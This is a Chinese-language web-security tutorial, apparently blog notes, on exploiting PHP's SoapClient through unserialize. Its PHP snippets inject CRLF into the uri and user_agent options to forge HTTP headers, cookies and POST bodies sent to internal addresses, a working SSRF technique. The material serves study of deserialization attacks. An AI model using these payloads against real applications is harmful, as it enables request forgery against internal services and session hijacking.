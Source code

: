 ### SoapClient

#### `__call`方法

正常情况下的`SoapClient`类，调用一个不存在的函数，会去调用`__call`方法

```
<?php
$a = new SoapClient(null,array('uri'=>'bbb', 'location'=>'http://ip:port/path'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->not_exists_function();
```

在服务器或者虚拟机开启nc监听端口,就会收到SoapClient对象的http请求,携带着一段xml文本

[![mark](https://blogjpg.yanmy.top/blog/20200414/0YF4dgN2wFmy.png?imageslim)](https://blogjpg.yanmy.top/blog/20200414/0YF4dgN2wFmy.png?imageslim)

`SOAPAction`处可控，可以把`\x0d\x0a`注入到`SOAPAction`，POST请求的header就可以被控制

```
<?php
$a = new SoapClient(null,array('uri'=>"bbb\r\n\r\nccc\r\n", 'location'=>'http://ip:port/path'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->not_exists_function();
```

[![mark](https://blogjpg.yanmy.top/blog/20200414/iNrDeQpFDpm5.png?imageslim)](https://blogjpg.yanmy.top/blog/20200414/iNrDeQpFDpm5.png?imageslim)

但`Content-Type`在`SOAPAction`的上面，就无法控制`Content-Typ`,也就不能控制POST的数据

在header里`User-Agent`在`Content-Type`前面

`user_agent`同样可以注入`CRLF`，控制`Content-Type`的值

```
<?php
$target = 'http://127.0.0.1:5555/path';
$post_string = 'data=something';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=my_session'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo $aaa;

$c = unserialize($aaa);
$c->not_exists_function();
?>
```
